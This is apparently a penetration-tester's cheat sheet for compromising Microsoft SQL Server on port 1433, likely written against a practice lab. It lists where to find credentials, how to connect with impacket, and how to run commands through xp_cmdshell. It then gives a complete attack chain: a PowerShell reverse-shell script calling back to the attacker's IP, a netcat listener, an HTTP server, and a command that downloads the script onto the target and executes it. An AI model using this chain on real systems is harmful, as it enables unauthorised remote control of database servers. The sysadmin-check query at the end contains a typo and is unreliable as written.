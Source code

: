 # Port 1433 Microsoft SQL Server (MSSQL)


## Look for credentials in:

- **.dtsConfig files**
  
  Used for SQL Server Integration Services (SSIS)


## Connect to MSSQL server

- **impacket**
  
	  mssqlclient.py <username>@<target_address> -windows-auth
  
  
## Test Remote Code Execution (RCE)

- **impacket**
  (While connected to MSSQL Server)
  
	  xp_cmdshell "whoami"  
  
## Generate a shell

- **impacket**
 
  (Attacker machine)
	- Place this PowerShell reverse shell code in shell.ps1 file:

		  client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
	
	- Start http server
 
 		 python3 -m http.server 80
   
	- Start netcat listener

		  nc -lvnp 443

	- Open port 80 and 443 in the firewall

		  ufw allow from 10.10.10.27 proto tcp to any port 80,443

  (Target Machine)
	- While connected to MSSQL Server, transfer reverse shell to target machine.)
  
		  xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
  
## Check if user is has sysadmin role

	SELECT IS_SRVROLEMEMEBR ('sysadmin')